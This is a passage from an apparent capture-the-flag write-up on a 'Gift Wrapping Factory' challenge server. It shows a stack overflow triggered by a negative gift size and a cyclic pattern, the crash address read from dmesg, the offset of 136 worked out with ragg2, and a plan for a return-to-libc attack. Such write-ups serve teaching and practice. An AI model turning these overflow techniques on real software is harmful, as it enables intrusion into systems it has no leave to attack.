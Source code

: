 Now we can either attach the server to a debugger, configure it to follow child process, and wait for it to crash so we can get the value of `rip` register and calculate the offset, or simply use the `dmesg` command to print info about the last crashes happened in our system. Since I'm lazy, I went for the second approach.

```shell
$ nc 0 12345
*
* Gift Wrapping Factory
*
Welcome to the new gift wrapping service!
Type "help" for help :)
> -1
Command not found.
> wrap
What is the size of the gift you want to wrap?
 |> -1
Please send me your gift.
 |> AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2
         _   _
        ((\o/))
 .-------//^\\------.
 |      /`   `\     |
 |                  |
 |                  |
  ------------------

Wow! This looks so beautiful

$ sudo dmesg | tail
[ 6285.218361] clocksource: Switched to clocksource hpet
[13404.975546] server[2981]: segfault at 41754141 ip `0000000041754141` sp 00007fff8cbed360 error 14 in libnss_files-2.25.so[7f7709ed4000+b000]
$ 
```

Great, at the moment of the crash, the instruction pointer was pointing to **0x41754141**. Again using `ragg2` we can calculate the offset.

```shell
$ ragg2 -q 0x41754141
Little endian: 136
Big endian: 137
$ 
```

From `rabin2` output, we already know that the binary's [endianess](https://en.wikipedia.org/wiki/Endianness) is Little Endian, so the offset value is **136**.

At this step we know that we control the instruction pointer, we also know that the stack is not executable. One way to exploit this is to [return to libc](https://en.wikipedia.org/wiki/Return-to-libc_attack), but since we don't know at what address `libc` is mapped in the virtual memory, we need to leak some addresses. 
